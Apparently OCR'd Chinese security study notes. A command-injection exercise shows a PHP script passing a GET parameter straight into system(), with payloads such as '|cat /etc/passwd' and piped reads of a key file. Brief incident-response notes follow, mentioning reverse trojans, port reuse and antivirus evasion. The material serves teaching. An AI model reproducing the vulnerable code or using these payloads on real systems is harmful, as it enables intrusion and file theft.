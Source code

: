 第四题：命令执行

//ex1.php 



$dir = $\_GET\["dir"\]; 

if \(isset\($dir\)\) 

{ 

echo ""; 

system\("ls -al ".$dir\); 

echo ""; 

} 

?&gt; 

http://www.xx.com/ex1.php?dir=\|cat /etc/passwd

读文件：cat more less head tail tailf sort vi sed od tac 

管道：\| &



\|head ../key.php\|grep key

\|sed -n '1,5p' ../key.php\|grep key

\|od -c ../key.php

vi

第五题：日志分析：经验

可视化：soc 收集日志，但不分析，事后分析：发生

IDS:入侵检测，误报率高

fw:防火墙，防外：安全策略：白名单

穿墙：加密，反弹木马，端口复用：80，8080，25，无端口马：icmp, 脚本攻击：注入，跨站，http:80 dll注入ie进程：

免杀：小七论坛，汇编 ，白名单，

ips:入侵防御系统：ids+fw

utm:统一威胁管理：ids+fw,vpn,防病毒等

应急响应：

发生了什么?恶意：黑客入侵，大规划病毒爆发，玩笑

哪些系统受到影响？关键系统：BCP:BIA:业务影响分析

预计修复需要的资源有些哪些？人：内部，外部，物：大容量硬盘，照相机，深度数据收集工具：易失性

怎么发生？日志，入侵还原：

关键字搜索：404：找不到，200空格 

&lt;iframe
